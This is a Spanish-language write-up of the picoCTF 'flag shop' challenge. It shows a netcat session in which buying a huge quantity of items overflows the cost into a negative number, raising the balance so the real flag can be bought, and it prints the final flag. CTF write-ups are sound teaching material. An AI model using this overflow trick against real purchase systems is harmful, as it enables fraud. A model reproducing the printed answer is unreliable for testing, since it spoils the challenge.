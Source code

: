 #Software #Hacking #Computación #GeneralSkills
Hecho por: [[Estufa|Juana Estefanía Herrera Mendoza]]
# Definición
There's a flag shop selling stuff, can you buy a flag? [Source](https://jupiter.challenges.picoctf.org/static/253c4651d852ac6342752ff222cf2a83/store.c). Connect with `nc jupiter.challenges.picoctf.org 9745`.
# Hints
- Two's compliment can do some weird things when numbers get really big!
# Solución
Comenzamos descargando el archivo como es costumbre, al tenerlo nos conectaremos con [[NET CAT]]: `nc jupiter.challenges.picoctf.org 9745`. Entramos a una interfaz y seguimos los pasos para 'comprar la bandera'.
```bash
AsumomezaC-picoctf@webshell:~$ nc jupiter.challenges.picoctf.org 9745
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
2400000

The final cost is: -2134967296

Your current balance after transaction: 2134968396

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one
1
YOUR FLAG IS: picoCTF{m0n3y_bag5_65d67a74}
Welcome to the flag exchange
We sell flags

3. Check Account Balance

4. Buy Flags

5. Exit

 Enter a menu selection
```
## Respuesta
picoCTF{m0n3y_bag5_65d67a74}